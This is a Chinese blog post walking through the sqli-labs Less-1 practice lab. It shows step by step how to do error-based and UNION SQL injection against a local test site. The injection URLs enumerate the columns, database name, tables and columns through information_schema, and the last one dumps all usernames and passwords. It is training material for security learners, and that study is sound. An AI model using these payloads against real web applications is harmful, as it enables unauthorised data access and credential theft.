```yaml
---
layout: post
title: sql-labs Less-1
date: 2017-9-21
categories: SQL
---
```


#### sql 字符
字符串运算符 ```'or```, 

多行注释 ```/*...*/```,   

加号,连接（在URL中等同于空格） ```+```,

单行注释 ```#```,

或 ```--```
<!--more--->
#### 注入
![Alt text](http://image-1252432001.file.myqcloud.com/sqli1.png)

输入id值为```1'```来破坏查询。

```sql
http://localhost/sqli-labs/Less-1/?id=1'
```
得到下列结果

![Alt text](http://image-1252432001.file.myqcloud.com/sqli2.png)

可以猜测后端应该是

```sql
SELECT * from table_name WHERE id='1';
```
or
```sql
SELECT * from table_name WHERE id=('1');
```

or

```sql
SELECT * from table_name WHERE id="1";
```

来猜一下:

```sql
http://localhost/sqli-labs/Less-1/?id=1\
```

利用转义字符来验证猜测

![Alttext](http://image-1252432001.file.myqcloud.com/sqli3.png)

结果中有```''1\'```,那么后端的查询应该是

```sql
SELECT * from table_name WHERE id='1';
```

那么如果输入```1'```完整的查询应该是

```sql
SELECT * from table_name WHERE id='1'';
```

所以这条查询有错误。

那么怎么不让它报错呢？

利用sql字符构建

```sql
http://localhost/sqli-labs/Less-1/?id=1'--+
```

得到下图

![Alttext](http://image-1252432001.file.myqcloud.com/sqli4.png)

其实这里的```--+```相当于注释，加号连接（在URL中等同于空格）```+```，

后端语句为

```sql
SELECT * from table_name WHERE id='1'--+';
```

等效于

```sql
SELECT * from table_name WHERE id='1';
```

所以登录成功。


----------


**现在我们既可以破坏查询，又可以修复它的语法错误了，接下来我们要努力在引号和 --+ 之间添加查询来获取数据库中的信息。**

为了使用```union```**（UNION操作符用于合并两个或多个SELECT语句的结果集。但是有一个前提条件，那就是UNION操作符两边的列数必须相同）**,我需要知道表的列数。

使用```order by```，来获取列数。

构建语句

```sql
http://localhost/sqli-labs/Less-1/?id=1' order by 1 --+
```

显示正确

![Alttext](http://image-1252432001.file.myqcloud.com/sqli5.png)

当构建

```sql
http://localhost/sqli-labs/Less-1/?id=1' order by 4 --+
```

出现了下图

![Alttext](http://image-1252432001.file.myqcloud.com/sqli6.png)

可以猜到这个表有3列，然后就可以使用```union```了。


----------

构建语句

```sql
http://localhost/sqli-labs/Less-1/?id=1' union select 1,2,3 --+
```

![Alttext](http://image-1252432001.file.myqcloud.com/sqli7.png)

显示正常

为了将第二个查询的结果显示出来，需要将第一条查询变成空，可以将```id```的值设为负值或者大于14.

构建语句

```sql
http://localhost/sqli-labs/Less-1/?id=-1' union select 1,2,3 --+
```

![Alttext](http://image-1252432001.file.myqcloud.com/sqli8.png)


图示显示``` name: 2 ```, ``` password: 3 ```，可以构建语句

```sql
http://localhost/sqli-labs/Less-1/?id=-1' union select 1,2,verison（） --+
```

![Alttext](http://image-1252432001.file.myqcloud.com/sqli9.png)

显示版本号。

下面开始爆出数据库名。

构建语句

```sql
http://localhost/sqli-labs/Less-1/?id=-1' union select 1,database(),verison（） --+
```

![Alttext](http://image-1252432001.file.myqcloud.com/sqli10.png)

得到数据库名为```security```.

接下来可以利用 information_schema这个数据库，爆出表名。

构建语句

```sql
http://localhost/sqli-labs/Less-1/?id=-1' union select 1,table_name,3 from information_schema.tables where table_schema = 'security' --+
```

![Alttext](http://image-1252432001.file.myqcloud.com/sqli11.png)

利用```group_concat()``` 来查取所有的表名。

构建语句

```sql
http://localhost/sqli-labs/Less-1/?id=-1' union select 1,group_concat(table_name),3 from information_schema.tables where table_schema = 'security' --+
```

![Alttext](http://image-1252432001.file.myqcloud.com/sqli12.png)

爆出全部表名。

接下来爆出```users```表的列名，也是利用information_schema这个数据库。

构建语句

```sql
http://localhost/sqli-labs/Less-1/?id=-1' union select 1,group_concat(column_name),3 from information_schema.columns where table_name = 'users' --+
```

![Alttext](http://image-1252432001.file.myqcloud.com/sqli13.png)

那么可以得到users表中的所以登录名和密码

构建语句

```sql
http://localhost/sqli-labs/Less-1/?id=-1' union select 1,group_concat(username),group_concat(password) from users --+
```

![Alttext](http://image-1252432001.file.myqcloud.com/sqli14.png)

**这么就把库给脱了！**
